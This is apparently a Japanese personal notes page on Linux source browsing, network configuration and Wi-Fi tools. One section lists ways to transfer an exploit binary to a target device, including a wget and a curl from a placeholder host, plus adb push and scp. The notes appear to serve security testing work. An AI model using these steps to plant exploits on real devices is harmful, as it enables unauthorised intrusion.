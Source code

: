 ## Linuxソースコード
<details>
<summary>Linuxコマンド</summary>

https://qiita.com/Nao1215/items/770429ada9fb463ae2ef

Ubuntu環境<br>
https://blog.amedama.jp/entry/ubuntu-fetch-cmd-src

</details>

<details>
<summary>Linuxカーネル</summary>

ダウンロード<br>
https://www.atmarkit.co.jp/ait/articles/1703/01/news171.html

ブラウザ<br>
https://code.woboq.org/linux/linux/ <br>
↑定義元とか追えて便利

https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/tree/

</details>

## GLIBC
<details>
<summary>ブラウザ</summary>

手順①：以下サイトにアクセスし、任意のGLIBCバージョンを選択する<br>
https://sourceware.org/git/?p=glibc.git;a=tags <br>

![image](https://user-images.githubusercontent.com/82632174/188454097-62349095-f2b9-49ec-aa7a-ef3c725492fa.png)


手順②：「tree」を押すとディレクトリ一覧が表示される<br>
![image](https://user-images.githubusercontent.com/82632174/188454130-04c6e402-0ae3-4b67-8cd0-0cfc01cac055.png)

	
手順③：任意のフォルダを開き、該当のソースコードを表示する<br>
![image](https://user-images.githubusercontent.com/82632174/188454152-e31f3803-b50e-42ad-a214-2a2aa6100fdb.png)
	
</details>
	
## ネットワーク

<details>
<summary>デフォルトゲートウェイの変更</summary>

手順⓪：既存ルールの確認

```route -n```<br>
![image](https://user-images.githubusercontent.com/82632174/188447642-c5305410-e13a-49cb-97db-751ce9c3e92e.png)<br>
※多分一番上のゲートウェイが優先ゲートウェイ
	
手順①：デフォルトゲートウェイの削除
route delete default
	
手順②：デフォルトゲートウェイの追加
route add default gw [GWのIPアドレス]
		
https://centos.bungu-do.jp/archives/11
	
</details>

<details>
<summary>攻撃対象ディレクトリにバイナリを転送する</summary>

①wget exmample.com/exploit

![image](https://user-images.githubusercontent.com/82632174/188448560-c6f94713-be85-4ef8-907d-bceb150f9168.png)

※busyboxにも入っているため使用できるケースが多そう(17M Accordの場合)

②curl -o exmample.com/exploit
	
③adb push [exploitバイナリ] [ターゲット端末の任意パス]
	
④scp [exploitバイナリ] username@remote.example.com:/remote/directory
※ターゲット端末上でsshサーバ(sshd)が有効な場合
	
⑤scp username@remote.example.com:/remote/directory/[exploitバイナリ] /local/directory
	
⑥ftp
	
⑦ブラウザ経由でダウンロード
	
⑧Exploitコードの入ったUSBメモリをターゲットに接続し、シェルからアクセス
	
</details>

<details>
<summary>USBディスクリプタを確認</summary>

`lsusb -s [バス番号]:[デバイス番号] -v`<br>
![image](https://user-images.githubusercontent.com/82632174/188449765-391f6628-f370-465f-ba00-34358ed94cc9.png)

	
</details>

<details>
<summary>hostapdの起動</summary>

`hostapd -B [confファイル]`<br>
![image](https://user-images.githubusercontent.com/82632174/188450168-4df8af7c-34b5-49e5-bf4d-b5690d8fee66.png)

※-B: バックグラウンド実行
	
</details>

<details>
<summary>wpa_supplicantの起動</summary>

`wpa_supplicant -i[NIC] -c[configファイル]`<br>
![image](https://user-images.githubusercontent.com/82632174/188450438-cfc58f2e-5bbf-42c2-b930-a6860ac2269e.png)


https://www.atmarkit.co.jp/ait/articles/1601/22/news026.html

※-dオプションをつけるとデバッグ情報を表示できる)
	
</details>

<details>
<summary>コマンドラインでのWi-Fi接続設定</summary>

手順①：/etc/wpa_supplicant/wpa-supplicant.confのssidとpskを接続したAPのものに設定する
![image](https://user-images.githubusercontent.com/82632174/188451174-68f7a8a4-dd94-4c9c-b27f-19b4e198b9f4.png)


手順②：機器をリブートする

https://qiita.com/mym/items/468d2cdb30d756b6df24

</details>

<details>
<summary>dhcpcdの起動</summary>

`dhcpcd`<br>
![image](https://user-images.githubusercontent.com/82632174/188451707-95007776-cf1b-4b5a-95c7-ddffcb2a3404.png)

※wpa_supplicantを起動し、APに接続した状態でdhcpcdを起動するとDHCPリクエストを送信しIPが割り当てられる
	
</details>

<details>
<summary>DNS参照先の確認</summary>

Windowsの場合：<br>
`ipconfig /all`<br>
![image](https://user-images.githubusercontent.com/82632174/188452038-596a1eb3-4cfe-4372-ba8c-4b2927c68811.png)

Linuxの場合：<br>
①/etc/resolv.confの中身<br>
②digのレスポンスの「SERVER:」で表示されるIPアドレス<br>
![image](https://user-images.githubusercontent.com/82632174/188452249-d5ddff83-af2f-4000-a1f2-0223c730eb90.png)

Digコマンドレスポンスの見方:
https://qiita.com/hypermkt/items/610b5042d290348a9dfa
	
</details>
